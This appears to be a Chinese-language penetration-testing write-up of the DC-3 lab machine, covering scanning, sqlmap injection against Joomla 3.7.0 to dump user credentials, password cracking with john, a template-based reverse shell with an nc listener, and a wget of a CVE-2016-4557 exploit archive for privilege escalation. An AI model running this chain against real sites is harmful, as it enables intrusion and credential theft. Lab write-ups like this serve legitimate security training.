

# 信息收集
## 主机发现
>netdiscover -i eht0 -r 192.168.72.0/24


## 端口扫描
>nmap -sS -sV  -T4 -O -p-  192.168.72.155


## 目录扫描
>gobuster dir -u http://192.168.72.155 -w /usr/share/dirb/wordlists/big.txt

```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/administrator (Status: 301)
/bin (Status: 301)
/cache (Status: 301)
/cli (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
```
其他目录扫描工具，比如dirb、dirbuster、御剑等


## 网站指纹
whatweb
>whatweb http://www.target.com

使用安装在浏览器上的插件更方便写

## CMS检查
>python3 cmseek.py  -u 192.168.72.155


>searchsploit joomla 3.7.0


查看42033.txt文件，利用文件中提供的url进行SQL注入
>sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbs
><url>
>sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomla --tables 
><url>
>sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomla -T '#__user' --columns
><url>
>sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomla -T '#__user' -C username,password –dump


获得admin账号的加密密码：`$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu`
>john ~/Desktop/pwd --wordlist=~/dict/passwordDict/top3000.txt


# 漏洞利用
登陆后在模板中发现远程代码执行

插入php反弹shell的代码，并用kali监听
>nc -vnlp 4444


通过点击模板的预览执行index.php中的代码

获得webshell

上传提权脚本

添加可执行权限


使用CVE-2016-4557提权

>wget	https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
>
>
>解压zip文件
>
>解压tar包
>
>执行sh文件
>
>运行提权文件
>
>提权成功
>
# 渗透总结
首先就是拿到一个有登陆界面的网站后，获取登陆用户名的常见方法是在登陆界面或密码找回界面通过网站不安全的错误提示遍历存在的用户；在像论坛这种的网站，可以根据发帖的人名称判读存在用户；也可以通过网站的SQL注入，来获得用户名甚至密码。

正常投入使用的网站都会存在有具有弱口令性质的用户，因此在获得已存在的用户后即可利用弱口令字典来进行暴破。

在DC-3中简单的方法是根据发帖判断网站的管理员就是admin，然后利用弱口令字典进行暴破，得到可登陆账号。

当通过暴力破解无法拿到登陆账号的情况下可以找网站的SQL注入或CMS等漏洞
## CMSeek
功能特点
- 超过170个CMS的基本CMS检测
- Drupal版本检测
- 先进的Wordpress扫描
- 检测版本
- 用户枚举
- 插件枚举
- 主题枚举
- 检测用户（3种检测方法）
- 寻找版本漏洞等等！
- 先进的Joomla扫描
- 版本检测
- 备份文件查找器
- 管理员页面查找器
- 核心漏洞检测
- 目录清单检查
- 配置泄漏检测
- 其他各种检查
- 模块化暴力系统
- 使用预制的蛮力模块或创建自己的模块并与其集成


安装
>git clone https://github.com/Tuhinshubhra/CMSeeK
>cd CMSeek
>pip3 install -r requirements.txt

使用
>python3 CMSeek.py -u www.target.com

更新

>python3 CMSeek.py --updata